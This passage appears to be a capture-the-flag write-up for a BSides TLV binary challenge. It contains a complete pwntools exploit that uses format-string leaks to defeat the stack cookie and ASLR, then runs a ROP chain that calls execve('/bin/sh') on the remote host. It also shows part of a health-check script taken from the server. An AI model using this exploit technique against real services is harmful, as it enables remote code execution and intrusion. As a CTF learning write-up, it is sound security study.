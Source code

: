 The final payload has some space in between the format string data and
the ropchain, which i just filled with a bunch of 0s.

```py
if args.LOCAL:
    if args.GDB:
        r = gdb.debug(["./main"],aslr=False)
    else:
        r = process(["./main"])
else:
    r = remote("intergalactic-communicator.ctf.bsidestlv.com", 8080)
comm = Comm(r)

context.binary = exe = ELF("./main")

comm.add(b"%529$p %533$p %532$p")
leaks = comm.get(0)[20:]
stack_cookie = int(leaks.split(b" ")[0],16)
exe.address = int(leaks.split(b" ")[1],16) - 0x1C27E
stack_address = int(leaks.split(b" ")[2],16)
info("Stack cookie: 0x%x, ASLR base: 0x%x, Stack addr: 0x%x", stack_cookie, exe.address, stack_address)

rop = ROP(exe,base=stack_address+0x88)
#rop.raw(rop.find_gadget(["ret"]).address)
rop.call('execve', [b'/bin/sh', [["sh"], 0], 0])
start_addr = stack_address + 8
ropchain = rop.chain()

comm.clear()
fmt,data = fmtstr_split(553, {
    start_addr: exe.address + 0x14fd22
}, numbwritten=20)
comm.add(fmt)
data = data + b"0"*(0x50 - len(data))
comm.get(0, data+ropchain)

r.sendline(b"ls")
r.interactive()
```

## Links

- [https://sourcegraph.com/github.com/sourcegraph/lsif-demos/-/blob/c-cpp-redis/src/crc64.c?L9](Redis crc64)

## Healthcheck

Found this on the remote called `health_check.py`

```py
import socket
import sys
import re

server = 'localhost'
port = 8080
check = b'\x00\x00\x00\x0c\xa9\xff\xaf\xc0\xbc\x1b\xacW5\xc9A\x11'
leak = b"\x00\x00\x00>\\E\xc5h\x06\xc4\xd3c\xb4Ng\x04-\x10\xa1\x05fJ\xfb]\xbff*Ww46\xe1\xfb2\x80k\xd43\t)\xd7`\xc4\x91\xec\x9e\xef\xb2rC\x12J\xcb\x83\x1a2o\xfc\xb3\x0f\x190\xaf\x9a\xaf'"
read = b'\x00\x00\x00\x10\x88\x88\xde\x92+\x00:pu\x92\xe5\xb8\xd6\xd0w\xf7'

def send_exploit(sock, buffer: bytes, read_response=False, health=False):
    sock.send(buffer)

```
